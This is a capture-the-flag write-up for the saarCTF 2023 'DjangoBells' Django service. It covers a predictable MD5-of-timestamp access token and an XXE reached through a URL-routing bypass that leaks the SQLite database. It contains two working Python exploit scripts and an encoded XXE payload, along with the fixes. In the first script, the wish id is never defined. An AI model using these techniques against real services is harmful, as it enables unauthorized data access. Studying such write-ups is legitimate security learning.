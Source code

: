 ```yaml
---
title: 'saarCTF 2023'
challenge: 'DjangoBells'
date: 2023-11-22T16:31:22+01:00
author: 'R1D3R175 & SimozB'
description: 'Writeup for saarCTF2023 DjangoBells service' 
cover: '/img/ctf/saarCTF2023/logo.png'
tags: ['web']
draft: false
---
```

# DjangoBells Writeup
## Challenge description
DjangoBells is a **web service** written in **Django**. Upon visiting `<IP>:8000`, two functionalities become apparent. 
The first, found on the index page, allows users to **add** a "wish" in the corresponding input box. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001027326.png" position="center" alt="Hello Friend" position="center" >}}

The second is the `/list` endpoint, which displays **censored** "wishes" along with their IDs and timestamps.

{{< image src="/img/ctf/saarCTF2023/image-20231120001056857.png" position="center" alt="image-20231120001056857" >}}

## First vulnerability

Upon attempting to create a wish, we observed the URL becoming `/read/<something1>/<something2>`. A code analysis reveals that the first segment, called `id` is a **UUIDv4** for the created wish, while the second segment, called `token` should be a **randomly** **encrypted** **nonce** in MD5. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001323632.png" position="center" alt="image-20231120001323632" >}}

However, an **error** exists in the code. The **Token** object, **intended** to be initialized with `(nonce, timestamp)`, is mistakenly initialized with **`(timestamp, nonce)`**. Essentially, the second part of the URL is the **MD5 of the timestamp**, which is **uncensored** in the `/list` endpoint. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001543925.png" position="center" alt="image-20231120001543925" >}}

We created this simple exploit:

```python
#!/usr/bin/env python3
import requests
import sys
from bs4 import BeautifulSoup
import hashlib
import time

IP = sys.argv[1]

def get_timestamp(div):
    no_useless_tag = str(div).replace("<strong>", "").replace(
        "</strong>", "").replace("<br>}}", "")
    timestamp = no_useless_tag.split("Timestamp:")[1].strip().split("\n")[0]
    return int(timestamp)

def get_flag():
    req = requests.get(f"http://{IP}:8000/list/").text
    soup = BeautifulSoup(req, 'html.parser')
    divs = soup.find_all('div', class_='wish-item')

    for div in divs:
        timestamp = get_timestamp(div)
        curr_timestamp = int(time.time())
        if curr_timestamp - timestamp > 120:  # avoid too old posts
            continue

        passtoken = hashlib.md5(str(timestamp).encode("utf-8")).hexdigest()
        
        resp = requests.get(f"http://{IP}:8000/read/{id}/{passtoken}")
        #: get div with id "wish" (where the flag is)
        soup = BeautifulSoup(resp.text, 'html.parser')
        div_flag = soup.find('div', id='wish')
        if "SAAR" in div_flag.text:
            print(div_flag.text, flush=True)

get_flag()
```

The fix for this issue involves simply correcting the parameter order:

{{< image src="/img/ctf/saarCTF2023/image-20231120002315691.png" position="center" alt="image-20231120002315691" >}}

## Second Vulnerability

Remember the `/read` endpoint? There was something **weird** about how it was getting called...
First we go here...

{{< image src="/img/ctf/saarCTF2023/urlpatterns.png" position="center" alt="/img/ctf/saarCTF2023/urlpatterns.png" >}}

Then we go to a **`make_api_call_token`** function...

{{< image src="/img/ctf/saarCTF2023/get_post.png" position="center" alt="/img/ctf/saarCTF2023/get_post.png" >}}

{{< image src="/img/ctf/saarCTF2023/make_api_call.png" position="center" alt="/img/ctf/saarCTF2023/make_api_call.png" >}}

Now this just looks **weird**!

If we inspect the code further, we can also see that there is an **XML parser** at the **`/report`** endpoint however we **can't** call it with whatever params we want.

Let's analyze the `make_api_call_token` function, it gets passed the `post_id`, the `pass_token` and the `endpoint`... but why is the endpoint at the **end**?
Since we **can** control both the `post_id` and the `pass_token` parameters, we can call **whatever** `api` endpoint we want using this payload:
```apl
/read/<your_endpoint>/<your_param>
```
Which will then get translated to
```apl
/api/<your_endpoint>/<your_param>/read
```

How can we **abuse** this?

We entirely **bypass** the regex filter on the *original* `/report` endpoint which, for instance, was this:
{{< image src="/img/ctf/saarCTF2023/report_regex.png" position="center" alt="/img/ctf/saarCTF2023/report_regex.png" >}}
Now it's important to see **how** the **`api`** view gets called and **pinpoint** what we want to do.

{{< image src="/img/ctf/saarCTF2023/report_api_func.png" position="center" alt="/img/ctf/saarCTF2023/report_api_func.png ">}}

Our objective will now be to **leak** something (like the `db.sqlite3` file) inside the `id` field of the XML.

Since there's an **XML parser**, it made us think **instantaneously** about an **XXE** so... let's analyze the **`miniXML`** class!

{{< image src="/img/ctf/saarCTF2023/minixml_parse.png" position="center" alt="/img/ctf/saarCTF2023/minixml_parse.png ">}}

This is the *"main loop"* of the parser.
The first function, **`self.eat_XMLdecl`** doesn't do anything useful for us so we're just going to **skip** it.
Something more interesting happens in the **2nd function**, `read_doctype`.

{{< image src="/img/ctf/saarCTF2023/minixml_read_doctype.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_doctype.png ">}}

It calls a function named **`read_entity`** which sounds quite juicy, let's see what it does!

{{< image src="/img/ctf/saarCTF2023/minixml_read_entity.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_entity.png" >}}

We can see that it replaces `file://`, however we don't *really* need it ¯\\\_(ツ)_/¯. Apart from that, we can also see that it **assigns** the **content of the file** to a `xe` class variable.
Let's see **how** it is used and if we have some **constraints**...

{{< image src="/img/ctf/saarCTF2023/minixml_replace.png" position="center" alt="/img/ctf/saarCTF2023/minixml_replace.png ">}}

Also, that's how the class is initialized:

{{< image src="/img/ctf/saarCTF2023/minixml_init.png" position="center" alt="/img/ctf/saarCTF2023/minixml_init.png ">}}

We can deduce that we **cannot** add any extra keys to the `xe` attribute.
But who says we can't just **reuse** one? Suppose we have

```apl
[ <!ENTITY amp SYSTEM "db.sqlite3"> ] 
```
What would happen? It would get *translated* like this:
```apl
name = "amp"
path = "db.sqlite3"
self.xe["&amp;"] = <content_of_db.sqlite3>
```
We can **overwrite** another key without triggering that "security" check!

Now all that it's left to do is to **write** the exploit and **encode** it.
```xml
<!DOCTYPE root [
    <!ENTITY amp SYSTEM "db.sqlite3">
]>
<id>&amp;</id>
<reason>pwn3d by NASLAB</reason>
```
Just encode the payload in **base64** and then prepare the URL to **bypass** the regex on `report`, which is:

```apl
/read/report/?reason=<b64 payload>
```
This isn't enough tho... remember that it **appended** the endpoint (which in this case is `/read`)? In order to "remove" it we can just add an **`&`** and it will get counted as a **GET parameter**.

**Final payload structure**
```apl
/read/report?reason=<b64 payload>&
```

Since it **also** called `unquote` we have to **URL-encode** the payload **twice** (one for Django, one for the `unquote`)

**Exploit**

```python
#!/usr/bin/env python3
import sys
import requests
import re

IP = sys.argv[1]
FLAG_REGEX = re.compile(r"SAAR\{[A-Za-z0-9-_]{32}\}")

VULN = "read/report/%3Freport%3DPCFET0NUWVBFIHJvb3QgWzwhRU5USVRZIGFtcCBTWVNURU0gImRiLnNxbGl0ZTMiPl0%252BPGlkPiZhbXA7PC9pZD48cmVhc29uPmFzZDwvcmVhc29uPg%253D%253D%2526"

def get_flag():
    massive = requests.get(f"http://{IP}:8000/{VULN}")
    
    flags = FLAG_REGEX.findall(massive.text)
    for flag in flags:
        print(flag, flush=True)

get_flag()
```

**Fix**

An easy fix is just to disallow `report` as the `post_id`.

{{< image src="/img/ctf/saarCTF2023/fix_vuln2.jpg" position="center" alt="/img/ctf/saarCTF2023/fix_vuln2.jpg" >}}



_- NASLAB_
